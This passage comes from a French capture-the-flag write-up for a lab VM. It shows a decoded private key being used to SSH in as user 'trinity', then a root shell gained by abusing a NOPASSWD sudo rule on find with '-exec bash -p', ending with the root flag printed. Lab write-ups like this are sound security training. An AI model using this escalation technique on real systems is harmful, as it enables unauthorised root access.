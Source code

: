 ```plain
neo@easy-vm:~$ chmod 600 trinity-key
neo@easy-vm:~$ base64 -d trinity-key > id_rsa 
neo@easy-vm:~$ chmod 600 id_rsa  
neo@easy-vm:~$ ssh -i id_rsa trinity@127.0.0.1 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64) 

 * Documentation:  https://help.ubuntu.com 
 * Management:     https://landscape.canonical.com 
 * Support:        https://ubuntu.com/advantage 

  System information as of Mon 07 Feb 2022 10:53:28 AM UTC 

  System load:  0.03              Processes:               134 
  Usage of /:   50.8% of 8.79GB   Users logged in:         1 
  Memory usage: 13%               IPv4 address for enp0s3: 192.168.56.23 
  Swap usage:   0% 

 * Super-optimized for small spaces - read how we shrank the memory 
   footprint of MicroK8s to make it the smallest full K8s around. 

   https://ubuntu.com/blog/microk8s-memory-optimisation 

0 updates can be applied immediately. 

The list of available updates is more than a week old. 
To check for new updates run: sudo apt update 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings 

Last login: Thu Dec 30 23:52:06 2021 from 192.168.86.130 
trinity@easy-vm:~$ id 
uid=1001(trinity) gid=1001(trinity) groups=1001(trinity)
```

Finalement on en vient à l'indice du début :  

```plain
trinity@easy-vm:~$ sudo -l 
Matching Defaults entries for trinity on easy-vm: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User trinity may run the following commands on easy-vm: 
    (ALL) NOPASSWD: /usr/bin/find 
trinity@easy-vm:~$ sudo /usr/bin/find README -exec bash -p \; 
root@easy-vm:/home/trinity# id 
uid=0(root) gid=0(root) groups=0(root) 
root@easy-vm:/home/trinity# cd /root/ 
root@easy-vm:~# ls 
root.txt  snap 
root@easy-vm:~# cat root.txt  

   _________                       __         .__   __             _______________   ________  ____    
  /   _____/ ____   ______  _  ___/  |______  |  | |  | __  ______ \_____  \   _  \  \_____  \/_   |   
  \_____  \ /    \ /  _ \ \/ \/ /\   __\__  \ |  | |  |/ / /  ___/  /  ____/  /_\  \  /  ____/ |   |   
  /        \   |  (  <_> )     /  |  |  / __ \|  |_|    <  \___ \  /       \  \_/   \/       \ |   |   
 /_______  /___|  /\____/ \/\_/   |__| (____  /____/__|_ \/____  > \_______ \_____  /\_______ \|___|   
         \/     \/                          \/          \/     \/          \/     \/         \/        
```